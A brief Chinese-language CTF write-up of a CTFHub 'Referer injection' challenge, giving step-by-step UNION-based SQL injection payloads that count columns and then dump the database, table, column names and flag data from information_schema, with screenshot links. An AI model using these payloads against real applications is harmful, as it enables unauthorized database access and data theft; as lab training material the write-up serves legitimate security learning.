 ### Refer 注入

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687b8d2558cb8da5c8c7331f.png)

提示 referer 注入

![](https://pic1.imgdb.cn/item/687b8ced58cb8da5c8c7330e.png)

输入 1 有回显

![](https://pic1.imgdb.cn/item/687b8d8158cb8da5c8c7333f.png)

测列数，3 没回显所以只有两列

```sql
1 order by 2#
```

![](https://pic1.imgdb.cn/item/687b8dc758cb8da5c8c73343.png)

爆数据库

```sql
-1 union select 1,database()#
```

![](https://pic1.imgdb.cn/item/687b8e7458cb8da5c8c73369.png)

爆表

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'sqli'#
```

![](https://pic1.imgdb.cn/item/687b8ea958cb8da5c8c73378.png)

爆字段

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name = 'gopuwbgusp'#
```

![](https://pic1.imgdb.cn/item/687b8ef658cb8da5c8c73389.png)

爆数据

```sql
-1 union select 1,group_concat(ctsioqmiwf) from uqwshrzswx#
```

![](https://pic1.imgdb.cn/item/687b8f1058cb8da5c8c7338a.png)
